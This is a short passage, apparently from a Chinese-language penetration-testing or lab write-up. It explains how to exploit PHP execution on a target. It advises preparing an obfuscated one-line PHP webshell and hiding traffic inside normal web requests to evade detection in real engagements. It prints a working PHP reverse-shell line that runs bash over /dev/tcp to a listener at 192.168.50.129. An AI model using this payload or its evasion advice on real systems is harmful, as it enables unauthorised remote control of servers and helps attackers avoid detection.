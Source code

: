 
![image-20240608004105776](./assets/image-20240608004105776.png)

一看到处都是攻击面，首先就可以发现大量php执行。准备一句话木马，实战环境中务必混淆，变型，能不反弹shell尽量不要反弹shell。

否则怎么死的都不知道，将请求返回信息尽量都藏在网页正常请求中，不要调用/bin/bash能用php脚本完成的尽量用脚本完成。

```php
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.50.129/5050 0>&1'"); ?>
```

![image-20240609011319770](./assets/image-20240609011319770.png)
